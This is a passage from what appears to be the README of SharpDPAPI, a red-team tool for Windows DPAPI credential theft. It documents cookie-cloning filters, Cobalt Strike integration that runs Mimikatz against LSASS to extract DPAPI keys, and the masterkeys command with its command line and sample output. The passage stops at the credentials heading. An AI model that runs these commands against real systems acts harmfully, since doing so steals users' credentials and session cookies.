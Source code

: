 The **cookies** command also has `/cookie:REGEX` and `/url:REGEX` arguments to only return cookie names or urls matching the supplied regex. This is useful with `/format:json` to easily clone access to specific sites.

### Cobalt Strike Usage

SharpDPAPI has an Aggressor script (**SharpDPAPI.cna**) that automates the usage of SharpDPAPI through Cobalt Strike. Before usage, replace `$SharpDPAPI::AssemblyPath` in the .cna with the location of your compiled SharpDPAPI assembly.

Loading **SharpDPAPI.cna** will register a new **sharpDPAPI** Beacon command. If **beacon> sharpDPAPI -dump** is run, the current Beacon will execute `sekurlsa::dpapi` Mimikatz command to extract any DPAPI keys from LSASS (assuming elevation) followed by `dpapi::cache` to display the {GUID}:SHA1 mappings. The decrypted master key SHA1s are stored in the credential store.

Running **beacon> sharpDPAPI** will execute SharpDPAPI with the `triage` command with any GUID:SHA1 masterkey mappings extracted for that host. This allows for effective triage of all Credentials and Vaults on a host _for any currently logged in users_.

_TODO: implement machine key triage functions in SharpDPAPI.cna_

## SharpDPAPI Commands

### User Triage

#### masterkeys

The **masterkeys** command will search for any readable user masterkey files and decrypt them using a supplied domain DPAPI backup key. It will return a set of masterkey {GUID}:SHA1 mappings.

The domain backup key can be in base64 form (`/pvk:BASE64...`) or file form (`/pvk:key.pvk`).

    C:\Temp>SharpDPAPI.exe masterkeys /pvk:key.pvk

      __                 _   _       _ ___
     (_  |_   _. ._ ._  | \ |_) /\  |_) |
     __) | | (_| |  |_) |_/ |  /--\ |  _|_
                    |
      v1.2.0


    [*] Action: Triage User Masterkey Files

    [*] Found MasterKey : C:\Users\admin\AppData\Roaming\Microsoft\Protect\S-1-5-21-1473254003-2681465353-4059813368-1000\28678d89-678a-404f-a197-f4186315c4fa
    [*] Found MasterKey : C:\Users\harmj0y\AppData\Roaming\Microsoft\Protect\S-1-5-21-883232822-274137685-4173207997-1111\3858b304-37e5-48aa-afa2-87aced61921a
    ...(snip)...

    [*] User master key cache:

    {42e95117-ff5f-40fa-a6fc-87584758a479}:4C802894C566B235B7F34B011316...(snip)...
    ...(snip)...


#### credentials
